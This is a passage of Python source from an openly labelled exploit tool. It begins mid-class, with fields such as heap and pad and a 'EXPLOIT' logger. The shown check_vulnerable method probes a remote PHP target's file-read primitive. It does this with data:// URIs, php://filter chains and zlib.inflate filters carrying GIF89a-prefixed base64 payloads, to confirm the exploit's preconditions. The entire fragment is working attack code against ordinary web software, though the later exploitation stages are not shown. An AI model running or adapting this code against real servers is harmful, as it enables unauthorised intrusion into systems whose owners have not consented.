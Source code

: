 ```python
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
        
        result = safe_download(path)
        
        if len(set(result).intersection(set(text))) == 0:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

```